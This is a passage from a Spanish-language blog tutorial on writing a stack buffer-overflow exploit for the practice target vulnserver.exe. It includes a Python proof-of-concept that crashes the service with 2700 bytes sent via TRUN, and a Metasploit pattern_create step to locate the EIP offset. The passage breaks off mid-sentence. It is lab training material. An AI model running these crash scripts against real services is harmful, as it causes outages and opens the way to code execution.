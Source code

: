 </code></pre>



<p>Podemos observar, que nuestro programa vulnserver.exe, detiene su operación y termina su ejecución con un error a los 2700 bytes enviados. GENIAL! Ya podemos terminar la ejecución del programa y podemos comenzar a trabajar en nuestro exploit</p>



<p>Para replicar nuestro fuzzer creamos una POC que envíe 2700 bytes de caracteres letra “A” y genera la caída, este script usaremos de base para construir nuestro exploit, y esta vez lo ejecutaremos en el debugger (immunity debugger) </p>



<p></p>



<pre class="wp-block-code"><code>#!/usr/bin/python
import socket
import sys

buffer = "A" * 2700

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.1.193', 9999))
    s.send(('TRUN /../: '+ buffer+'\r\n'))
    #s.send(('TRUN .' + buffer + '\r\n'))
    print s.recv(1024)
    s.close()
except:
    print "Sin conexion al servidor"
</code></pre>



<p></p>



<p>Ahora debemos identificar nuestra dirección de retorno, EIP, por lo que debemos identificar qye byte es en el que comienza a sobreescribirse el EIP para así poder luego manipularlo, para esto usaremos la herramientas de metasploit, pattern_create y pattern_offset<br></p>



<p>Primero generamos un patrón único de 2700 bytes con el siguiente comando</p>



<p><strong><em>msf-pattern_create -l 2700</em></strong><br></p>



<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/6gr5oo2qCnUYK9xG1DibGyLt3h5PlWYijLIYtyjuaZg0eleWqWA7MVsiIpdEygmYUGfiVmOafnf7LU0nursG1sqV5z54RF2dfNe2gdLGJLYPrhEQOdikOr5B_79F0ruqqIG3xb_-" alt="" /></figure>



<p>Luego añadimos esto a nuestro script de POC para así poder enviar este patrón, observamos en nuestro debugger que el EIP recae exactamente en los caracteres:</p>



